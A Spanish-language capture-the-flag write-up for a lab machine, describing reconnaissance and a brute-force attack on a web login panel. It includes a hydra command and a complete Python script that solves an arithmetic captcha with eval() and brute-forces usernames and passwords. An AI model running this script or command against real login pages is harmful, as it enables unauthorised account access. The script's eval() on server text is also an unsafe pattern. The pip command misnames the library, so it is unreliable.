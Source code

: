 Realizamos un escaneo de nmap y encontramos el puerto 80 abierto
![[Pasted image 20240808090918.png]]

Accedemos a la web y encontramos un panel de login
![[Pasted image 20240808090958.png]]

Realizamos una petición y la capturamos con burp suite
![[Pasted image 20240808091232.png]]

Hacemos fuzzing web y no encontramos mas que el panel ya visto anteriormente
![[Pasted image 20240808095533.png]]

Ahora realizaremos un ataque de fuerza bruta contra este panel con los diccionarios que nos proporciona esta maquina
![[Pasted image 20240808091321.png]]

Hacemos el ataque y nos muestra muchas opciones
```Bash
hydra -L usernames.txt -P passwords.txt 10.10.242.126 -s 80 http-post-form "/login:username=^USER^&password=^PASS^:The usr '^USER^'does not exist"
```
![[Pasted image 20240808093034.png]]

Si volvemos al panel de login y hacemos una prueba nos salta un captcha
![[Pasted image 20240808093056.png]]

Realizamos otra captura con burp suite para entender mejor como funciona este panel de login
![[Pasted image 20240808093218.png]]

Ahora utilizaremos el siguiente script para saltarnos el captcha y realizar un ataque de fuerza bruta
```Python
#! /usr/bin/python

from requests import Session
import re 

url = "http://10.10.242.126/login"

# Removing the line feed (\n) from the usernames and passwords read from the respective files
usernames = open('usernames.txt','r').read().splitlines()
passwords = open('passwords.txt', 'r').read().splitlines()


def solve_captcha(response):
 
  captcha_syntax = re.compile(r'(\s\s\d+\s[+*-/]\s\d+)\s\=\s\?')
  captcha = captcha_syntax.findall(response)
  return eval(' '.join(captcha))

#initializing a session
session = Session() 
data = {'username': 'username','password':'password'}
# create a post request to the url with the payload/data using the session opened
response = session.post(url,data=data) 

for user in usernames:

 response = session.post(url,data=data)
 data['username'] = user

 if 'Captcha enabled' in response.text:

  captcha_result = solve_captcha(response.text)

  data['captcha'] = captcha_result

 response = session.post(url,data =data)

 if 'does not exist' not in response.text:
  
  print(f'Found username: {user}')
  print(f"Attempting to brute forcing passowrd for user: {user}")

  for password in passwords:

   captcha_result = solve_captcha(response.text)
   data['password'] = password
   data['captcha'] = captcha_result

   response = session.post(url,data=data)

   if 'Error' not in response.text:

    print(f'----> Found Username: {user} Password: {password} ')
    exit()
   
   else:
    print(f'[*]Trying password: {password} for user ')
 
 else:
  print(f'[*] Trying password: password for user: {user}')
```

Si falla la ejecución del script es porque falta instalar la biblioteca de `requests`
```
pip3 install request
```
![[Pasted image 20240808095114.png]]

Ejecutamos el script y nos encuentra la password
![[Pasted image 20240808095051.png]]
![[Pasted image 20240808095030.png]]

Probamos las credenciales y obtenemos la flag
![[Pasted image 20240808095215.png]]


Si quisieramos saber cuantos intentos tenemos antes de que salte el captcha podriamos hacerlo realizando el ataque de fuerza bruta con burp suite, para ello lo preparamos desde intruder
![[Pasted image 20240808095927.png]]

Y ahora cargamos los diccionarios
![[Pasted image 20240808095834.png]]

Aproximadamente al intento numero 10 nos salta que se activa captcha
![[Pasted image 20240808100248.png]]